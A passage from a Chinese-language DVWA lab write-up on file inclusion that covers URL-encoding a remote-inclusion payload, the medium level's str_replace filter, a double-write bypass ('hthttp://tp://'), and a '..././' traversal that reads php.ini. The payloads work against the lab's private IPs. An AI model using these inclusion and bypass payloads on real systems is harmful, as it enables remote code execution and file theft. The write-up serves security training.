 为了增加隐蔽性，可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到，Medium 级别的代码增加了 str_replace 函数，对 page 参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。

**相关函数**
- **str_replace()**
	str_replace() 函数以其他字符替换字符串中的一些字符(区分大小写)。

	该函数必须遵循下列规则：
	- 如果搜索的字符串是数组，那么它将返回数组。
	- 如果搜索的字符串是数组，那么它将对数组中的每个元素进行查找和替换。
	- 如果同时需要对数组进行查找和替换，并且需要执行替换的元素少于查找到的元素的数量，那么多余元素将用空字符串进行替换
	- 如果查找的是数组，而替换的是字符串，那么替代字符串将对所有查找到的值起作用。

**漏洞利用**

使用 str_replace 函数是极其不安全的，因为可以使用双写绕过替换规则。

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时，str_replace 函数会将 http:// 删除，于是 `page=http://<IP地址!!!>/phpinfo.txt`，成功执行远程命令。

同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功

![image](../../../img/渗透/实验/dvwa/dvwa21.png)
